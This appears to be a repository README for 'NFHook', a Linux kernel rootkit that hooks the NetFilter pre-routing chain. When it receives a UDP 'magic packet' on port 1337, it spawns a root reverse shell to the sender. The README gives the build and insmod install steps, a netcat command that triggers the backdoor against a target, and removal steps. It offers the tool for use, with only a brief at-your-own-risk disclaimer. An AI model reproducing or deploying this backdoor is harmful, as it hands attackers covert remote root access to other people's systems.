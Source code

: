 # NFHook: NetFilter Hooking rootkit #

This rootkit registers a hook in the NetFilter pre-routing chain with high
priority, that is all incoming packets get through this hook first.

Once a "magic packet" is received (UDP packet on port 1337), a root reverse shell is
spawned back to the requester on the very same port.

Make sure you have un reverse shell script in `/usr/bin/reverse_shell.sh`

## Compilation ##
```
	$ make
```

## Installation ##
```
	$ sudo insmod nfhook.ko
```

## Usage ##
```
	$ echo "Hello world" | nc -u $target 1337
```

## Removal ##
```
	$ sudo rmmod nfhook
```

## Disclaimer ##

This is an experimental rootkit. Use it at your own risks.
